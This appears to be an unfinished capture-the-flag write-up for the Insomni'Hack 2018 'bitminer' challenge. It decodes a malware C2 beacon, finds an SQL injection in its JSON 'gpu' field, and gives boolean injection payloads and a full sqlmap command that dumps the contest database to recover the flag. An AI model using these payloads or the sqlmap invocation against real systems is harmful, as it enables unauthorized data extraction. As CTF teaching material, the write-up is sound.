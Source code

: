 ```yaml
---
title: Insomni'Hack 2018 - Vba02-bitminer
published: false
---
```


# {{page.title}}
Solves: 21 / Points: 142
## Challenge description
Oh no I opened an email attachment AGAIN!! Help me to take my revenge. Here is the file I downloaded:

FIXME: Add the file
## Challenge resolution
FIXME: first step

The following base64 is sent over HTTP to the C2 by the malware: 

```eyJjaWQiOiJERVNLVE9QLUQwMjE0VjgiLCJjcHUiOiJJbnRlbChSKSBDb3JlKFRNKSBpNS00MzEwVSBDUFUgQCAyLjAwR0h6IiwiZ3B1IjoiQ2FydGUgdmlkw6lvIGRlIGJhc2UgTWljcm9zb2Z0In0=```

The decoded base64 is a json object:
```
{
    "cid":"DESKTOP-D0214V8",
    "cpu":"Intel(R) Core(TM) i5-4310U CPU @ 2.00GHz",
    "gpu":"Carte vidéo de base Microsoft"
}
```
After playing with the json content, we identify that the server send an error when a single quote is present in the gpu field. The vulnerability seems to be a SQL injection which can be easily checked by sending the following gpu value:
* ' or 1=1 \-\- always true, return go
* ' or 1=0 \-\- always false, return pwaaa

As we are lazy hackers, we use sqlmap to extract the database content. To do so, we use the -r option by defining a file containing all information the request (* is used to mark the injection point):
```
$ cat raw_request
POST /?a=benchmark HTTP/1.1
Host: bitminer.insomni.hack
User-Agent: Bitcoin Mining $couter 0.1 Beta 1337
Expect: 100-continue
Content-Length: 148
Content-Type: application/x-www-form-urlencoded

*
```

And run the following sqlmap command:

``$ sqlmap -r raw_request --tamper base64encode --prefix $'{"cid":"DESKTOP-D0214V8","cpu":"Intel(R) Core(TM) i5-4310U CPU @ 2.00GHz","gpu":"\' or 1=1 ' --suffix ' -- a"}' --skip-urlencode --level 5 --string go --technique B --dump``

Finaly, we retrieve the flag from the flag tables: INS{M1ninG_i5_t0o_H4rD_Lets_D0_Norm4l_Cyb3rCr1me}


